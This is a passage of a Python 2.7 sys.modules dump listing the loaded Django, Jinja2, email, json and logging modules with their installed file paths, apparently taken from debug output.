 'django.db.migrations.operations.models': <module 'django.db.migrations.operations.models' from '/usr/local/lib/python2.7/dist-packages/django/db/migrations/operations/models.pyc'>,
 'django.db.migrations.operations.special': <module 'django.db.migrations.operations.special' from '/usr/local/lib/python2.7/dist-packages/django/db/migrations/operations/special.pyc'>,
 'django.db.migrations.operations.utils': <module 'django.db.migrations.operations.utils' from '/usr/local/lib/python2.7/dist-packages/django/db/migrations/operations/utils.pyc'>,
 'django.db.migrations.state': <module 'django.db.migrations.state' from '/usr/local/lib/python2.7/dist-packages/django/db/migrations/state.pyc'>,
 'django.db.migrations.warnings': None,
 'django.db.models': <module 'django.db.models' from '/usr/local/lib/python2.7/dist-packages/django/db/models/__init__.pyc'>,
 'django.db.models.__future__': None,
 'django.db.models.aggregates': <module 'django.db.models.aggregates' from '/usr/local/lib/python2.7/dist-packages/django/db/models/aggregates.pyc'>,
 'django.db.models.base': <module 'django.db.models.base' from '/usr/local/lib/python2.7/dist-packages/django/db/models/base.pyc'>,
 'django.db.models.bisect': None,
 'django.db.models.collections': None,
 'django.db.models.constants': <module 'django.db.models.constants' from '/usr/local/lib/python2.7/dist-packages/django/db/models/constants.pyc'>,
 'django.db.models.copy': None,
 'django.db.models.datetime': None,
 'django.db.models.decimal': None,
 'django.db.models.deletion': <module 'django.db.models.deletion' from '/usr/local/lib/python2.7/dist-packages/django/db/models/deletion.pyc'>,
 'django.db.models.django': None,
 'django.db.models.expressions': <module 'django.db.models.expressions' from '/usr/local/lib/python2.7/dist-packages/django/db/models/expressions.pyc'>,
 'django.db.models.fields': <module 'django.db.models.fields' from '/usr/local/lib/python2.7/dist-packages/django/db/models/fields/__init__.pyc'>,
 'django.db.models.fields.__future__': None,
 'django.db.models.fields.base64': None,
 'django.db.models.fields.collections': None,
 'django.db.models.fields.copy': None,
 'django.db.models.fields.datetime': None,
 'django.db.models.fields.decimal': None,
 'django.db.models.fields.django': None,
 'django.db.models.fields.files': <module 'django.db.models.fields.files' from '/usr/local/lib/python2.7/dist-packages/django/db/models/fields/files.pyc'>,
 'django.db.models.fields.functools': None,
 'django.db.models.fields.inspect': None,
 'django.db.models.fields.itertools': None,
 'django.db.models.fields.operator': None,
 'django.db.models.fields.os': None,
 'django.db.models.fields.posixpath': None,
 'django.db.models.fields.proxy': <module 'django.db.models.fields.proxy' from '/usr/local/lib/python2.7/dist-packages/django/db/models/fields/proxy.pyc'>,
 'django.db.models.fields.related': <module 'django.db.models.fields.related' from '/usr/local/lib/python2.7/dist-packages/django/db/models/fields/related.pyc'>,
 'django.db.models.fields.related_descriptors': <module 'django.db.models.fields.related_descriptors' from '/usr/local/lib/python2.7/dist-packages/django/db/models/fields/related_descriptors.pyc'>,
 'django.db.models.fields.related_lookups': <module 'django.db.models.fields.related_lookups' from '/usr/local/lib/python2.7/dist-packages/django/db/models/fields/related_lookups.pyc'>,
 'django.db.models.fields.reverse_related': <module 'django.db.models.fields.reverse_related' from '/usr/local/lib/python2.7/dist-packages/django/db/models/fields/reverse_related.pyc'>,
 'django.db.models.fields.uuid': None,
 'django.db.models.fields.warnings': None,
 'django.db.models.functions': <module 'django.db.models.functions' from '/usr/local/lib/python2.7/dist-packages/django/db/models/functions/__init__.pyc'>,
 'django.db.models.functions.base': <module 'django.db.models.functions.base' from '/usr/local/lib/python2.7/dist-packages/django/db/models/functions/base.pyc'>,
 'django.db.models.functions.datetime': <module 'django.db.models.functions.datetime' from '/usr/local/lib/python2.7/dist-packages/django/db/models/functions/datetime.pyc'>,
 'django.db.models.functions.django': None,
 'django.db.models.functools': None,
 'django.db.models.hashlib': None,
 'django.db.models.importlib': None,
 'django.db.models.indexes': <module 'django.db.models.indexes' from '/usr/local/lib/python2.7/dist-packages/django/db/models/indexes.pyc'>,
 'django.db.models.inspect': None,
 'django.db.models.itertools': None,
 'django.db.models.lookups': <module 'django.db.models.lookups' from '/usr/local/lib/python2.7/dist-packages/django/db/models/lookups.pyc'>,
 'django.db.models.manager': <module 'django.db.models.manager' from '/usr/local/lib/python2.7/dist-packages/django/db/models/manager.pyc'>,
 'django.db.models.math': None,
 'django.db.models.operator': None,
 'django.db.models.options': <module 'django.db.models.options' from '/usr/local/lib/python2.7/dist-packages/django/db/models/options.pyc'>,
 'django.db.models.query': <module 'django.db.models.query' from '/usr/local/lib/python2.7/dist-packages/django/db/models/query.pyc'>,
 'django.db.models.query_utils': <module 'django.db.models.query_utils' from '/usr/local/lib/python2.7/dist-packages/django/db/models/query_utils.pyc'>,
 'django.db.models.signals': <module 'django.db.models.signals' from '/usr/local/lib/python2.7/dist-packages/django/db/models/signals.pyc'>,
 'django.db.models.sql': <module 'django.db.models.sql' from '/usr/local/lib/python2.7/dist-packages/django/db/models/sql/__init__.pyc'>,
 'django.db.models.sql.collections': None,
 'django.db.models.sql.constants': <module 'django.db.models.sql.constants' from '/usr/local/lib/python2.7/dist-packages/django/db/models/sql/constants.pyc'>,
 'django.db.models.sql.copy': None,
 'django.db.models.sql.datastructures': <module 'django.db.models.sql.datastructures' from '/usr/local/lib/python2.7/dist-packages/django/db/models/sql/datastructures.pyc'>,
 'django.db.models.sql.django': None,
 'django.db.models.sql.itertools': None,
 'django.db.models.sql.query': <module 'django.db.models.sql.query' from '/usr/local/lib/python2.7/dist-packages/django/db/models/sql/query.pyc'>,
 'django.db.models.sql.re': None,
 'django.db.models.sql.string': None,
 'django.db.models.sql.subqueries': <module 'django.db.models.sql.subqueries' from '/usr/local/lib/python2.7/dist-packages/django/db/models/sql/subqueries.pyc'>,
 'django.db.models.sql.warnings': None,
 'django.db.models.sql.where': <module 'django.db.models.sql.where' from '/usr/local/lib/python2.7/dist-packages/django/db/models/sql/where.pyc'>,
 'django.db.models.sys': None,
 'django.db.models.utils': <module 'django.db.models.utils' from '/usr/local/lib/python2.7/dist-packages/django/db/models/utils.pyc'>,
 'django.db.models.warnings': None,
 'django.db.os': None,
 'django.db.pkgutil': None,
 'django.db.threading': None,
 'django.db.transaction': <module 'django.db.transaction' from '/usr/local/lib/python2.7/dist-packages/django/db/transaction.pyc'>,
 'django.db.utils': <module 'django.db.utils' from '/usr/local/lib/python2.7/dist-packages/django/db/utils.pyc'>,
 'django.dispatch': <module 'django.dispatch' from '/usr/local/lib/python2.7/dist-packages/django/dispatch/__init__.pyc'>,
 'django.dispatch.dispatcher': <module 'django.dispatch.dispatcher' from '/usr/local/lib/python2.7/dist-packages/django/dispatch/dispatcher.pyc'>,
 'django.dispatch.django': None,
 'django.dispatch.sys': None,
 'django.dispatch.threading': None,
 'django.dispatch.warnings': None,
 'django.dispatch.weakref': None,
 'django.dispatch.weakref_backports': <module 'django.dispatch.weakref_backports' from '/usr/local/lib/python2.7/dist-packages/django/dispatch/weakref_backports.pyc'>,
 'django.django': None,
 'django.forms': <module 'django.forms' from '/usr/local/lib/python2.7/dist-packages/django/forms/__init__.pyc'>,
 'django.forms.UserList': None,
 'django.forms.__future__': None,
 'django.forms.boundfield': <module 'django.forms.boundfield' from '/usr/local/lib/python2.7/dist-packages/django/forms/boundfield.pyc'>,
 'django.forms.collections': None,
 'django.forms.copy': None,
 'django.forms.datetime': None,
 'django.forms.decimal': None,
 'django.forms.django': None,
 'django.forms.fields': <module 'django.forms.fields' from '/usr/local/lib/python2.7/dist-packages/django/forms/fields.pyc'>,
 'django.forms.forms': <module 'django.forms.forms' from '/usr/local/lib/python2.7/dist-packages/django/forms/forms.pyc'>,
 'django.forms.formsets': <module 'django.forms.formsets' from '/usr/local/lib/python2.7/dist-packages/django/forms/formsets.pyc'>,
 'django.forms.io': None,
 'django.forms.itertools': None,
 'django.forms.json': None,
 'django.forms.models': <module 'django.forms.models' from '/usr/local/lib/python2.7/dist-packages/django/forms/models.pyc'>,
 'django.forms.os': None,
 'django.forms.re': None,
 'django.forms.renderers': <module 'django.forms.renderers' from '/usr/local/lib/python2.7/dist-packages/django/forms/renderers.pyc'>,
 'django.forms.sys': None,
 'django.forms.utils': <module 'django.forms.utils' from '/usr/local/lib/python2.7/dist-packages/django/forms/utils.pyc'>,
 'django.forms.uuid': None,
 'django.forms.warnings': None,
 'django.forms.widgets': <module 'django.forms.widgets' from '/usr/local/lib/python2.7/dist-packages/django/forms/widgets.pyc'>,
 'django.http': <module 'django.http' from '/usr/local/lib/python2.7/dist-packages/django/http/__init__.pyc'>,
 'django.http.__future__': None,
 'django.http.base64': None,
 'django.http.binascii': None,
 'django.http.cgi': None,
 'django.http.cookie': <module 'django.http.cookie' from '/usr/local/lib/python2.7/dist-packages/django/http/cookie.pyc'>,
 'django.http.copy': None,
 'django.http.datetime': None,
 'django.http.django': None,
 'django.http.email': None,
 'django.http.io': None,
 'django.http.itertools': None,
 'django.http.json': None,
 'django.http.multipartparser': <module 'django.http.multipartparser' from '/usr/local/lib/python2.7/dist-packages/django/http/multipartparser.pyc'>,
 'django.http.re': None,
 'django.http.request': <module 'django.http.request' from '/usr/local/lib/python2.7/dist-packages/django/http/request.pyc'>,
 'django.http.response': <module 'django.http.response' from '/usr/local/lib/python2.7/dist-packages/django/http/response.pyc'>,
 'django.http.sys': None,
 'django.http.time': None,
 'django.template': <module 'django.template' from '/usr/local/lib/python2.7/dist-packages/django/template/__init__.pyc'>,
 'django.template.__future__': None,
 'django.template.backends': <module 'django.template.backends' from '/usr/local/lib/python2.7/dist-packages/django/template/backends/__init__.pyc'>,
 'django.template.backends.base': <module 'django.template.backends.base' from '/usr/local/lib/python2.7/dist-packages/django/template/backends/base.pyc'>,
 'django.template.backends.django': <module 'django.template.backends.django' from '/usr/local/lib/python2.7/dist-packages/django/template/backends/django.pyc'>,
 'django.template.backends.jinja2': <module 'django.template.backends.jinja2' from '/usr/local/lib/python2.7/dist-packages/django/template/backends/jinja2.pyc'>,
 'django.template.base': <module 'django.template.base' from '/usr/local/lib/python2.7/dist-packages/django/template/base.pyc'>,
 'django.template.collections': None,
 'django.template.context': <module 'django.template.context' from '/usr/local/lib/python2.7/dist-packages/django/template/context.pyc'>,
 'django.template.contextlib': None,
 'django.template.copy': None,
 'django.template.datetime': None,
 'django.template.decimal': None,
 'django.template.defaultfilters': <module 'django.template.defaultfilters' from '/usr/local/lib/python2.7/dist-packages/django/template/defaultfilters.pyc'>,
 'django.template.defaulttags': <module 'django.template.defaulttags' from '/usr/local/lib/python2.7/dist-packages/django/template/defaulttags.pyc'>,
 'django.template.django': None,
 'django.template.engine': <module 'django.template.engine' from '/usr/local/lib/python2.7/dist-packages/django/template/engine.pyc'>,
 'django.template.exceptions': <module 'django.template.exceptions' from '/usr/local/lib/python2.7/dist-packages/django/template/exceptions.pyc'>,
 'django.template.functools': None,
 'django.template.importlib': None,
 'django.template.inspect': None,
 'django.template.itertools': None,
 'django.template.library': <module 'django.template.library' from '/usr/local/lib/python2.7/dist-packages/django/template/library.pyc'>,
 'django.template.loader': <module 'django.template.loader' from '/usr/local/lib/python2.7/dist-packages/django/template/loader.pyc'>,
 'django.template.loader_tags': <module 'django.template.loader_tags' from '/usr/local/lib/python2.7/dist-packages/django/template/loader_tags.pyc'>,
 'django.template.logging': None,
 'django.template.operator': None,
 'django.template.os': None,
 'django.template.posixpath': None,
 'django.template.pprint': None,
 'django.template.random': None,
 'django.template.re': None,
 'django.template.response': <module 'django.template.response' from '/usr/local/lib/python2.7/dist-packages/django/template/response.pyc'>,
 'django.template.smartif': <module 'django.template.smartif' from '/usr/local/lib/python2.7/dist-packages/django/template/smartif.pyc'>,
 'django.template.sys': None,
 'django.template.utils': <module 'django.template.utils' from '/usr/local/lib/python2.7/dist-packages/django/template/utils.pyc'>,
 'django.template.warnings': None,
 'django.templatetags': <module 'django.templatetags' from '/usr/local/lib/python2.7/dist-packages/django/templatetags/__init__.pyc'>,
 'django.templatetags.__future__': None,
 'django.templatetags.cache': <module 'django.templatetags.cache' from '/usr/local/lib/python2.7/dist-packages/django/templatetags/cache.pyc'>,
 'django.templatetags.datetime': None,
 'django.templatetags.django': None,
 'django.templatetags.i18n': <module 'django.templatetags.i18n' from '/usr/local/lib/python2.7/dist-packages/django/templatetags/i18n.pyc'>,
 'django.templatetags.l10n': <module 'django.templatetags.l10n' from '/usr/local/lib/python2.7/dist-packages/django/templatetags/l10n.pyc'>,
 'django.templatetags.pytz': None,
 'django.templatetags.static': <module 'django.templatetags.static' from '/usr/local/lib/python2.7/dist-packages/django/templatetags/static.pyc'>,
 'django.templatetags.sys': None,
 'django.templatetags.tz': <module 'django.templatetags.tz' from '/usr/local/lib/python2.7/dist-packages/django/templatetags/tz.pyc'>,
 'django.urls': <module 'django.urls' from '/usr/local/lib/python2.7/dist-packages/django/urls/__init__.pyc'>,
 'django.urls.__future__': None,
 'django.urls.base': <module 'django.urls.base' from '/usr/local/lib/python2.7/dist-packages/django/urls/base.pyc'>,
 'django.urls.django': None,
 'django.urls.exceptions': <module 'django.urls.exceptions' from '/usr/local/lib/python2.7/dist-packages/django/urls/exceptions.pyc'>,
 'django.urls.functools': None,
 'django.urls.importlib': None,
 'django.urls.re': None,
 'django.urls.resolvers': <module 'django.urls.resolvers' from '/usr/local/lib/python2.7/dist-packages/django/urls/resolvers.pyc'>,
 'django.urls.threading': None,
 'django.urls.utils': <module 'django.urls.utils' from '/usr/local/lib/python2.7/dist-packages/django/urls/utils.pyc'>,
 'django.utils': <module 'django.utils' from '/usr/local/lib/python2.7/dist-packages/django/utils/__init__.pyc'>,
 'django.utils.__future__': None,
 'django.utils._os': <module 'django.utils._os' from '/usr/local/lib/python2.7/dist-packages/django/utils/_os.pyc'>,
 'django.utils.autoreload': <module 'django.utils.autoreload' from '/usr/local/lib/python2.7/dist-packages/django/utils/autoreload.pyc'>,
 'django.utils.base64': None,
 'django.utils.baseconv': <module 'django.utils.baseconv' from '/usr/local/lib/python2.7/dist-packages/django/utils/baseconv.pyc'>,
 'django.utils.binascii': None,
 'django.utils.calendar': None,
 'django.utils.codecs': None,
 'django.utils.collections': None,
 'django.utils.contextlib': None,
 'django.utils.copy': None,
 'django.utils.crypto': <module 'django.utils.crypto' from '/usr/local/lib/python2.7/dist-packages/django/utils/crypto.pyc'>,
 'django.utils.datastructures': <module 'django.utils.datastructures' from '/usr/local/lib/python2.7/dist-packages/django/utils/datastructures.pyc'>,
 'django.utils.dateformat': <module 'django.utils.dateformat' from '/usr/local/lib/python2.7/dist-packages/django/utils/dateformat.pyc'>,
 'django.utils.dateparse': <module 'django.utils.dateparse' from '/usr/local/lib/python2.7/dist-packages/django/utils/dateparse.pyc'>,
 'django.utils.dates': <module 'django.utils.dates' from '/usr/local/lib/python2.7/dist-packages/django/utils/dates.pyc'>,
 'django.utils.datetime': None,
 'django.utils.datetime_safe': <module 'django.utils.datetime_safe' from '/usr/local/lib/python2.7/dist-packages/django/utils/datetime_safe.pyc'>,
 'django.utils.decimal': None,
 'django.utils.deconstruct': <module 'django.utils.deconstruct' from '/usr/local/lib/python2.7/dist-packages/django/utils/deconstruct.pyc'>,
 'django.utils.decorators': <module 'django.utils.decorators' from '/usr/local/lib/python2.7/dist-packages/django/utils/decorators.pyc'>,
 'django.utils.deprecation': <module 'django.utils.deprecation' from '/usr/local/lib/python2.7/dist-packages/django/utils/deprecation.pyc'>,
 'django.utils.django': None,
 'django.utils.duration': <module 'django.utils.duration' from '/usr/local/lib/python2.7/dist-packages/django/utils/duration.pyc'>,
 'django.utils.email': None,
 'django.utils.encoding': <module 'django.utils.encoding' from '/usr/local/lib/python2.7/dist-packages/django/utils/encoding.pyc'>,
 'django.utils.formats': <module 'django.utils.formats' from '/usr/local/lib/python2.7/dist-packages/django/utils/formats.pyc'>,
 'django.utils.functional': <module 'django.utils.functional' from '/usr/local/lib/python2.7/dist-packages/django/utils/functional.pyc'>,
 'django.utils.functools': None,
 'django.utils.gzip': None,
 'django.utils.hashlib': None,
 'django.utils.hmac': None,
 'django.utils.html': <module 'django.utils.html' from '/usr/local/lib/python2.7/dist-packages/django/utils/html.pyc'>,
 'django.utils.html_parser': <module 'django.utils.html_parser' from '/usr/local/lib/python2.7/dist-packages/django/utils/html_parser.pyc'>,
 'django.utils.http': <module 'django.utils.http' from '/usr/local/lib/python2.7/dist-packages/django/utils/http.pyc'>,
 'django.utils.imp': None,
 'django.utils.importlib': None,
 'django.utils.inspect': <module 'django.utils.inspect' from '/usr/local/lib/python2.7/dist-packages/django/utils/inspect.pyc'>,
 'django.utils.io': None,
 'django.utils.ipv6': <module 'django.utils.ipv6' from '/usr/local/lib/python2.7/dist-packages/django/utils/ipv6.pyc'>,
 'django.utils.itercompat': <module 'django.utils.itercompat' from '/usr/local/lib/python2.7/dist-packages/django/utils/itercompat.pyc'>,
 'django.utils.locale': None,
 'django.utils.log': <module 'django.utils.log' from '/usr/local/lib/python2.7/dist-packages/django/utils/log.pyc'>,
 'django.utils.logging': None,
 'django.utils.lorem_ipsum': <module 'django.utils.lorem_ipsum' from '/usr/local/lib/python2.7/dist-packages/django/utils/lorem_ipsum.pyc'>,
 'django.utils.lru_cache': <module 'django.utils.lru_cache' from '/usr/local/lib/python2.7/dist-packages/django/utils/lru_cache.pyc'>,
 'django.utils.module_loading': <module 'django.utils.module_loading' from '/usr/local/lib/python2.7/dist-packages/django/utils/module_loading.pyc'>,
 'django.utils.numberformat': <module 'django.utils.numberformat' from '/usr/local/lib/python2.7/dist-packages/django/utils/numberformat.pyc'>,
 'django.utils.operator': None,
 'django.utils.os': None,
 'django.utils.pytz': None,
 'django.utils.random': None,
 'django.utils.re': None,
 'django.utils.regex_helper': <module 'django.utils.regex_helper' from '/usr/local/lib/python2.7/dist-packages/django/utils/regex_helper.pyc'>,
 'django.utils.safestring': <module 'django.utils.safestring' from '/usr/local/lib/python2.7/dist-packages/django/utils/safestring.pyc'>,
 'django.utils.signal': None,
 'django.utils.six': <module 'django.utils.six' from '/usr/local/lib/python2.7/dist-packages/django/utils/six.pyc'>,
 'django.utils.six.moves': <module 'django.utils.six.moves' (built-in)>,
 'django.utils.six.moves.http_client': <module 'httplib' from '/usr/lib/python2.7/httplib.pyc'>,
 'django.utils.six.moves.urllib': <module 'django.utils.six.moves.urllib' (built-in)>,
 'django.utils.six.moves.urllib.parse': <module 'django.utils.six.moves.urllib_parse' (built-in)>,
 'django.utils.struct': None,
 'django.utils.subprocess': None,
 'django.utils.sys': None,
 'django.utils.tempfile': None,
 'django.utils.termcolors': <module 'django.utils.termcolors' from '/usr/local/lib/python2.7/dist-packages/django/utils/termcolors.pyc'>,
 'django.utils.termios': None,
 'django.utils.text': <module 'django.utils.text' from '/usr/local/lib/python2.7/dist-packages/django/utils/text.pyc'>,
 'django.utils.threading': None,
 'django.utils.time': None,
 'django.utils.timesince': <module 'django.utils.timesince' from '/usr/local/lib/python2.7/dist-packages/django/utils/timesince.pyc'>,
 'django.utils.timezone': <module 'django.utils.timezone' from '/usr/local/lib/python2.7/dist-packages/django/utils/timezone.pyc'>,
 'django.utils.traceback': None,
 'django.utils.translation': <module 'django.utils.translation' from '/usr/local/lib/python2.7/dist-packages/django/utils/translation/__init__.pyc'>,
 'django.utils.translation.__future__': None,
 'django.utils.translation.django': None,
 'django.utils.translation.re': None,
 'django.utils.translation.warnings': None,
 'django.utils.tree': <module 'django.utils.tree' from '/usr/local/lib/python2.7/dist-packages/django/utils/tree.pyc'>,
 'django.utils.unicodedata': None,
 'django.utils.urlparse': None,
 'django.utils.version': <module 'django.utils.version' from '/usr/local/lib/python2.7/dist-packages/django/utils/version.pyc'>,
 'django.utils.warnings': None,
 'django.views': <module 'django.views' from '/usr/local/lib/python2.7/dist-packages/django/views/__init__.pyc'>,
 'django.views.__future__': None,
 'django.views.debug': <module 'django.views.debug' from '/usr/local/lib/python2.7/dist-packages/django/views/debug.pyc'>,
 'django.views.django': None,
 'django.views.generic': <module 'django.views.generic' from '/usr/local/lib/python2.7/dist-packages/django/views/generic/__init__.pyc'>,
 'django.views.generic.__future__': None,
 'django.views.generic.base': <module 'django.views.generic.base' from '/usr/local/lib/python2.7/dist-packages/django/views/generic/base.pyc'>,
 'django.views.generic.dates': <module 'django.views.generic.dates' from '/usr/local/lib/python2.7/dist-packages/django/views/generic/dates.pyc'>,
 'django.views.generic.datetime': None,
 'django.views.generic.detail': <module 'django.views.generic.detail' from '/usr/local/lib/python2.7/dist-packages/django/views/generic/detail.pyc'>,
 'django.views.generic.django': None,
 'django.views.generic.edit': <module 'django.views.generic.edit' from '/usr/local/lib/python2.7/dist-packages/django/views/generic/edit.pyc'>,
 'django.views.generic.functools': None,
 'django.views.generic.list': <module 'django.views.generic.list' from '/usr/local/lib/python2.7/dist-packages/django/views/generic/list.pyc'>,
 'django.views.generic.logging': None,
 'django.views.re': None,
 'django.views.sys': None,
 'django.views.types': None,
 'email': <module 'email' from '/usr/lib/python2.7/email/__init__.pyc'>,
 'email.Charset': <email.LazyImporter object at 0x7f0085e55890>,
 'email.Encoders': <email.LazyImporter object at 0x7f0085e55950>,
 'email.Errors': <email.LazyImporter object at 0x7f0085e55a10>,
 'email.FeedParser': <email.LazyImporter object at 0x7f0085e55ad0>,
 'email.Generator': <email.LazyImporter object at 0x7f0085e55b90>,
 'email.Header': <email.LazyImporter object at 0x7f0085e55c50>,
 'email.Iterators': <email.LazyImporter object at 0x7f0085e55d10>,
 'email.MIMEAudio': <email.LazyImporter object at 0x7f0085e58190>,
 'email.MIMEBase': <email.LazyImporter object at 0x7f0085e58250>,
 'email.MIMEImage': <email.LazyImporter object at 0x7f0085e58310>,
 'email.MIMEMessage': <email.LazyImporter object at 0x7f0085e58410>,
 'email.MIMEMultipart': <email.LazyImporter object at 0x7f0085e584d0>,
 'email.MIMENonMultipart': <email.LazyImporter object at 0x7f0085e58550>,
 'email.MIMEText': <email.LazyImporter object at 0x7f0085e58610>,
 'email.Message': <email.LazyImporter object at 0x7f0085e55dd0>,
 'email.Parser': <email.LazyImporter object at 0x7f0085e55e90>,
 'email.Utils': <email.LazyImporter object at 0x7f0085e55f50>,
 'email._parseaddr': <module 'email._parseaddr' from '/usr/lib/python2.7/email/_parseaddr.pyc'>,
 'email.base64': None,
 'email.base64MIME': <email.LazyImporter object at 0x7f0085e55f90>,
 'email.base64mime': <module 'email.base64mime' from '/usr/lib/python2.7/email/base64mime.pyc'>,
 'email.binascii': None,
 'email.cStringIO': None,
 'email.calendar': None,
 'email.charset': <module 'email.charset' from '/usr/lib/python2.7/email/charset.pyc'>,
 'email.codecs': None,
 'email.email': None,
 'email.encoders': <module 'email.encoders' from '/usr/lib/python2.7/email/encoders.pyc'>,
 'email.errors': <module 'email.errors' from '/usr/lib/python2.7/email/errors.pyc'>,
 'email.generator': <module 'email.generator' from '/usr/lib/python2.7/email/generator.pyc'>,
 'email.header': <module 'email.header' from '/usr/lib/python2.7/email/header.pyc'>,
 'email.iterators': <module 'email.iterators' from '/usr/lib/python2.7/email/iterators.pyc'>,
 'email.message': <module 'email.message' from '/usr/lib/python2.7/email/message.pyc'>,
 'email.mime': <module 'email.mime' from '/usr/lib/python2.7/email/mime/__init__.pyc'>,
 'email.mime.base': <module 'email.mime.base' from '/usr/lib/python2.7/email/mime/base.pyc'>,
 'email.mime.email': None,
 'email.mime.message': <module 'email.mime.message' from '/usr/lib/python2.7/email/mime/message.pyc'>,
 'email.mime.multipart': <module 'email.mime.multipart' from '/usr/lib/python2.7/email/mime/multipart.pyc'>,
 'email.mime.nonmultipart': <module 'email.mime.nonmultipart' from '/usr/lib/python2.7/email/mime/nonmultipart.pyc'>,
 'email.mime.text': <module 'email.mime.text' from '/usr/lib/python2.7/email/mime/text.pyc'>,
 'email.os': None,
 'email.quopri': None,
 'email.quopriMIME': <email.LazyImporter object at 0x7f0085e58090>,
 'email.quoprimime': <module 'email.quoprimime' from '/usr/lib/python2.7/email/quoprimime.pyc'>,
 'email.random': None,
 'email.re': None,
 'email.socket': None,
 'email.string': None,
 'email.sys': None,
 'email.time': None,
 'email.urllib': None,
 'email.utils': <module 'email.utils' from '/usr/lib/python2.7/email/utils.pyc'>,
 'email.uu': None,
 'email.warnings': None,
 'encodings': <module 'encodings' from '/usr/lib/python2.7/encodings/__init__.pyc'>,
 'encodings.__builtin__': None,
 'encodings.aliases': <module 'encodings.aliases' from '/usr/lib/python2.7/encodings/aliases.pyc'>,
 'encodings.ascii': <module 'encodings.ascii' from '/usr/lib/python2.7/encodings/ascii.pyc'>,
 'encodings.codecs': None,
 'encodings.encodings': None,
 'encodings.utf_8': <module 'encodings.utf_8' from '/usr/lib/python2.7/encodings/utf_8.pyc'>,
 'errno': <module 'errno' (built-in)>,
 'exceptions': <module 'exceptions' (built-in)>,
 'fcntl': <module 'fcntl' (built-in)>,
 'fnmatch': <module 'fnmatch' from '/usr/lib/python2.7/fnmatch.pyc'>,
 'functools': <module 'functools' from '/usr/lib/python2.7/functools.pyc'>,
 'gc': <module 'gc' (built-in)>,
 'genericpath': <module 'genericpath' from '/usr/lib/python2.7/genericpath.pyc'>,
 'gettext': <module 'gettext' from '/usr/lib/python2.7/gettext.pyc'>,
 'grp': <module 'grp' (built-in)>,
 'gzip': <module 'gzip' from '/usr/lib/python2.7/gzip.pyc'>,
 'hashlib': <module 'hashlib' from '/usr/lib/python2.7/hashlib.pyc'>,
 'heapq': <module 'heapq' from '/usr/lib/python2.7/heapq.pyc'>,
 'hmac': <module 'hmac' from '/usr/lib/python2.7/hmac.pyc'>,
 'htmlentitydefs': <module 'htmlentitydefs' from '/usr/lib/python2.7/htmlentitydefs.pyc'>,
 'httplib': <module 'httplib' from '/usr/lib/python2.7/httplib.pyc'>,
 'imp': <module 'imp' (built-in)>,
 'importlib': <module 'importlib' from '/usr/lib/python2.7/importlib/__init__.pyc'>,
 'importlib.sys': None,
 'inspect': <module 'inspect' from '/usr/lib/python2.7/inspect.pyc'>,
 'io': <module 'io' from '/usr/lib/python2.7/io.pyc'>,
 'itertools': <module 'itertools' (built-in)>,
 'jinja2': <module 'jinja2' from '/usr/local/lib/python2.7/dist-packages/jinja2/__init__.pyc'>,
 'jinja2._compat': <module 'jinja2._compat' from '/usr/local/lib/python2.7/dist-packages/jinja2/_compat.pyc'>,
 'jinja2.ast': None,
 'jinja2.bccache': <module 'jinja2.bccache' from '/usr/local/lib/python2.7/dist-packages/jinja2/bccache.pyc'>,
 'jinja2.cPickle': None,
 'jinja2.cStringIO': None,
 'jinja2.collections': None,
 'jinja2.compiler': <module 'jinja2.compiler' from '/usr/local/lib/python2.7/dist-packages/jinja2/compiler.pyc'>,
 'jinja2.decimal': None,
 'jinja2.defaults': <module 'jinja2.defaults' from '/usr/local/lib/python2.7/dist-packages/jinja2/defaults.pyc'>,
 'jinja2.environment': <module 'jinja2.environment' from '/usr/local/lib/python2.7/dist-packages/jinja2/environment.pyc'>,
 'jinja2.errno': None,
 'jinja2.exceptions': <module 'jinja2.exceptions' from '/usr/local/lib/python2.7/dist-packages/jinja2/exceptions.pyc'>,
 'jinja2.filters': <module 'jinja2.filters' from '/usr/local/lib/python2.7/dist-packages/jinja2/filters.pyc'>,
 'jinja2.fnmatch': None,
 'jinja2.functools': None,
 'jinja2.hashlib': None,
 'jinja2.idtracking': <module 'jinja2.idtracking' from '/usr/local/lib/python2.7/dist-packages/jinja2/idtracking.pyc'>,
 'jinja2.itertools': None,
 'jinja2.json': None,
 'jinja2.keyword': None,
 'jinja2.lexer': <module 'jinja2.lexer' from '/usr/local/lib/python2.7/dist-packages/jinja2/lexer.pyc'>,
 'jinja2.loaders': <module 'jinja2.loaders' from '/usr/local/lib/python2.7/dist-packages/jinja2/loaders.pyc'>,
 'jinja2.markupsafe': None,
 'jinja2.marshal': None,
 'jinja2.math': None,
 'jinja2.nodes': <module 'jinja2.nodes' from '/usr/local/lib/python2.7/dist-packages/jinja2/nodes.pyc'>,
 'jinja2.operator': None,
 'jinja2.optimizer': <module 'jinja2.optimizer' from '/usr/local/lib/python2.7/dist-packages/jinja2/optimizer.pyc'>,
 'jinja2.os': None,
 'jinja2.parser': <module 'jinja2.parser' from '/usr/local/lib/python2.7/dist-packages/jinja2/parser.pyc'>,
 'jinja2.random': None,
 'jinja2.re': None,
 'jinja2.runtime': <module 'jinja2.runtime' from '/usr/local/lib/python2.7/dist-packages/jinja2/runtime.pyc'>,
 'jinja2.stat': None,
 'jinja2.string': None,
 'jinja2.sys': None,
 'jinja2.tempfile': None,
 'jinja2.tests': <module 'jinja2.tests' from '/usr/local/lib/python2.7/dist-packages/jinja2/tests.pyc'>,
 'jinja2.threading': None,
 'jinja2.types': None,
 'jinja2.urllib': None,
 'jinja2.utils': <module 'jinja2.utils' from '/usr/local/lib/python2.7/dist-packages/jinja2/utils.pyc'>,
 'jinja2.visitor': <module 'jinja2.visitor' from '/usr/local/lib/python2.7/dist-packages/jinja2/visitor.pyc'>,
 'jinja2.warnings': None,
 'jinja2.weakref': None,
 'json': <module 'json' from '/usr/lib/python2.7/json/__init__.pyc'>,
 'json._json': None,
 'json.decoder': <module 'json.decoder' from '/usr/lib/python2.7/json/decoder.pyc'>,
 'json.encoder': <module 'json.encoder' from '/usr/lib/python2.7/json/encoder.pyc'>,
 'json.json': None,
 'json.re': None,
 'json.scanner': <module 'json.scanner' from '/usr/lib/python2.7/json/scanner.pyc'>,
 'json.struct': None,
 'json.sys': None,
 'keyword': <module 'keyword' from '/usr/lib/python2.7/keyword.pyc'>,
 'linecache': <module 'linecache' from '/usr/lib/python2.7/linecache.pyc'>,
 'locale': <module 'locale' from '/usr/lib/python2.7/locale.pyc'>,
 'logging': <module 'logging' from '/usr/lib/python2.7/logging/__init__.pyc'>,
 'logging.SocketServer': None,
 'logging.atexit': None,
 'logging.cPickle': None,
 'logging.cStringIO': None,
 'logging.codecs': None,
 'logging.collections': None,
